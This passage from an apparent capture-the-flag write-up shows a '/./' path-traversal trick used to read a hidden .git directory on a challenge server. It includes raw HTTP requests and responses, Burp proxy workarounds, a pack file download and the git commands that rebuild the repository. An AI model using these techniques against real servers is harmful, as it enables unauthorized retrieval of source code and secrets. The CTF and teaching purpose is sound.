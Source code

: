 >
> Just as I though, /./ works:
>
```HTTP
GET ./home/ctf/./flag.git/config HTTP/1.1

HTTP/1.1 200 Yippie
Server: Linux/cyber
Date: Fri, 05 Oct 2018 22:04:11 GMT
Content-type: text/cyber
Content-length: 192

[core]
    repositoryformatversion = 0
    filemode = true
    bare = false
    logallrefupdates = true
[user]
    name = CyberControlCenter
    email = cybercyber@cyber.center
```

Slightly embarassed by not finding this obvious solution I focused on this task again.
The first approach was trying to copy the repository using `git`.
I set it up to proxy all requests via BurpSuite.
Then added some in-Burp rules.
First one to modify path so that it include dots as `git` was normalizing URL before request.
And another one to change `Content-Type` header, as the server was returning `text/cyber`.
Unfortunately this failed as the server was cheating with response `Content-Length` header as well:

```python3
self.send_header('Content-length', getsizeof(content))
```

I have noticed it previously(as Firefox save dialog was failing with some funny message) when it didn't matter that much as I have been sending all of the request from BurpSuite.
The next step was to manually "touch" each request so that Burp will fix `Content-length` header.
This somehow worked and I was able to start fetching repo, but then cloning failed on request for `http-alternate`.
Anyway one of the files accessed was `objects/info/packs`, which contains list of packed objects stored in this git repository.
```HTTP
GET ./home/ctf/./flag.git/objects/info/packs HTTP/1.1

HTTP/1.1 200 Yippie
Server: Linux/cyber
Date: Fri, 05 Oct 2018 22:13:49 GMT
Content-type: text/html
Content-length: 87

P pack-1be7d7690af62baab265b9441c4c40c8a26a8ba5.pack
```
In this case there is only one. It should contain all objects(like commits, trees, files) relevant to this repository.
```HTTP
GET ./home/ctf/./flag.git/objects/pack/pack-1be7d7690af62baab265b9441c4c40c8a26a8ba5.pack HTTP/1.1
```
After downloading it, `file` shows that there is 15 objects inside. Those can be extracted in an empty git repository:
```bash
$ mkdir tmp && cd tmp
$ git init .
$ cat ../pack | git unpack-objects
Unpacking objects: 100% (15/15), done.
```
We end up having partially initialized repository with interesting objects from the remote repository.